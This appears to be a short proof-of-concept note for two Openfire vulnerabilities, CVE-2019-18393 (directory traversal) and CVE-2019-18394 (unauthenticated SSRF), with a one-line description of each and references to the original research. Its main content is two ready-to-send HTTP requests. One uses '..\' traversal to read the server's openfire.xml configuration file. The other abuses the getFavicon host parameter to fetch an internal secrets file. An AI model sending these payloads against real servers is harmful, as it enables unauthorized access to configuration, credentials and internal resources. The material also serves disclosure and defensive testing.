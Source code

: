 # CVE-2019-18393 Directory Traversal

## Description

PluginServlet.java in Ignite Realtime Openfire through 4.4.2 does not ensure that retrieved files are located under the Openfire home directory,
aka a directory traversal vulnerability.

## POC

```
GET /plugins/search/..\..\..\conf\openfire.xml HTTP/1.1
Host: TARGET:9090
Cookie: JSESSIONID=node01aaib5x4g4p781q3i2m2tm74u91.node0;
```


# CVE-2019-18394 Unauthenticated SSRF

## Description

A Server Side Request Forgery (SSRF) vulnerability in FaviconServlet.java in Ignite Realtime Openfire through 4.4.2 
allows attackers to send arbitrary HTTP GET requests.

```
GET /getFavicon?host=192.168.176.1:8080/secrets.txt? HTTP/1.1
Host: TARGET:9090
```

## Reference

- https://swarm.ptsecurity.com/openfire-admin-console/
- https://twitter.com/ptswarm/status/1290660280372994054

